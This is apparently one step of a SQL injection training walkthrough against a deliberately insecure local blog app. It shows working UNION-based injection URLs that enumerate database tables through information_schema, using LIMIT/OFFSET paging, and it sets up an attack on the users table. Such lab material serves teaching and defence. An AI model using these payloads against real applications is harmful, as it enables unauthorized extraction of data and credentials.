 # (e) Get all tables

The plan here is to **list all the tables** of the target database (the database of this app).

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous step also store information about all the tables in every database of the server.

This information is stored in a table called **COLUMNS**.

So, to get all the tables of our database we have to query that *COLUMNS* table.
Let say our database is called **insecure_blog** (just like detailed in [env/development.json](../../env/development.json)). The query could be like this:
```shell
SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'
```

where:
- **table_name** is the column where the table's name get stored,
- **table_schema** is the column where the database's name get stored

> **Note:**
>   is important to use **distinct(table_name)** instead of **table_name** alone, because there is one table_name for each column of each table. 
> This means that if one table has 10 columns there will be 10 rows in the table_name column.
> Check this out. This is **information_schema.columns**:
>
> | TABLE_SCHEMA  | TABLE_NAME    | COLUMN_NAME  |
> | ------------- |:-------------:| ------------:|
> | insecure_blog | posts         | id           |
> | insecure_blog | posts         | title        |
> | insecure_blog | posts         | body         |
> | insecure_blog | posts         | date         |
> | insecure_blog | posts         | status       |
>

Then we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'),3,4,5,6,7,8,9/slug-name-post'
```

This query, just like in the previous step will return an error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

We can use the same trick (*LIMIT + OFFSET*) to get the job done:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And keep **increasing the OFFSET** value to get all the tables.

----------

If all went well, we will have 3 tables:

- posts
- comments
- users

Of course we will focous in the **users table**.

But this is for the next step.
That is it for now!!
